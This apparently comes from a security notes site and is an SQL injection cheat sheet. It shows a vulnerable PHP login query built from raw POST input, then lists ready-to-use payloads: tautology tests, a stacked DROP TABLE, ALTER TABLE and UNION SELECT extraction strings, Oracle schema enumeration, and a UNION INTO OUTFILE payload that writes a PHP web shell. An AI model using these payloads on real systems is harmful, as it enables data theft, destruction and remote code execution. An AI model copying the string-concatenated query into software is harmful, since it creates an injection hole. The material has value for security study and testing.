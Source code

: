 # SQL Injection
[HOME](/index.html) / [Web](/Web)

## The basics

How an example of unsecure sql statement looks like:

<pre>
$SQL = "SELECT * FROM <i>{tablename}</i> WHERE <i>{username}</i> = ' + <b><i>$_POST["username"]</i></b> + ' AND ' + <b><i>$_POST['password']</i></b>'";
</pre>

To break the statement:

<pre>
$SQL = "SELECT * FROM <i>{tablename}</i> WHERE <i>{username}</i> = ' + <b><i>1' OR 1+1--</i></b> + ' AND ' + <b><i>$_POST['password']</i></b>'";
</pre>

### Simple SQL injection test
```SQL
'
1' OR 1+1--
\'
```
### Stacked injection; Where table name is known
```SQL
1'; DROP TABLE {tablename} --
```
### Where column name is known
```SQL
1'; ALTER TABLE {tablename} ALTER COLUMN {columnname} {datatype} --
1' UNION SELECT {columnname} FROM {tablename};--
1' UNION ALL SELECT {columnname} FROM {tablename};--
```

<br>

## Blind injection
Apply in URL
```SQL
www.example.com/xxx.php?id=1 or 1=1
```

## RCE with UNION
```
123' UNION SELECT '<?php echo system("ls -la /");?>','2','3','4','5' into outfile '/var/www/html/shell.php'#
```

## Oracle DB
```
' UNION SELECT table_name,null,null FROM all_tables--
' UNION SELECT  column_name,null,null FROM all_tab_columns WHERE table_name=''--
' UNION SELECT [col1],[col2],null FROM [table]--
```
